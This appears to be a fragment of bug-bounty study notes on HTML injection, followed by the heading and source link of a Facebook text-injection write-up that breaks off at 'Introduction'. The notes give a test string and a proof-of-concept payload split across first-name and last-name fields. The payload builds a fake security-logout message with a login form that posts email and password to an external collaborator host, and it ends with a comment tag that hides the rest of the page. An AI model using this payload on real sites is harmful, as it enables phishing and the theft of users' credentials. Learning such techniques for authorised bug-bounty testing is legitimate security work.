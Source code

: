 https://freedium.cfd/https://medium.com/@bugbounty_learners/clickjacking-tips-and-tricks-working-80-on-hackerone-350-300-200-f7b73e5fa9c6 

## Html Injection

test for HTMLI:

```
<h1><a href=bit.ly/48rQIVc>Click
```

POC:

```html
Payload in firstname:  
Dear Team  
  
As part of our commitment to security, we have logged you out of your accounts due to recent updates in our system protocols. To ensure the safety and integrity of your account, please re-login using the secure link provided below.  

<html>  
<body>  
<form action="https://burpcolloborator.com">Login again for security:<br><br>   
<label for="u">Email id:  
<input type="text" id="u" name="u"><br><br>  
<label for="p">Password:  
<input type="password" id="p" name="p"><br></br>  
<input type="submit" value="Submit">  
</body>  
</html>  
  
Payload in lastname:  
If you encounter any issues or have questions, feel free to reach out to our IT support team at. We appreciate your cooperation in keeping our systems secure.  
  
Thank you for your understanding.  
  
Best Regards,  
Samsung Developer  
<!--
```


##  Facebook Text Injection Vulnerability: A Creative Approach | Bug Bounty:

source: [Facebook Text Injection Vulnerability: A Creative Approach | Bug Bounty | by Ph.Hitachi | Jan, 2025 | InfoSec Write-ups](https://infosecwriteups.com/facebook-text-injection-vulnerability-a-creative-approach-bug-bounty-048076ad35ea)

# Introduction
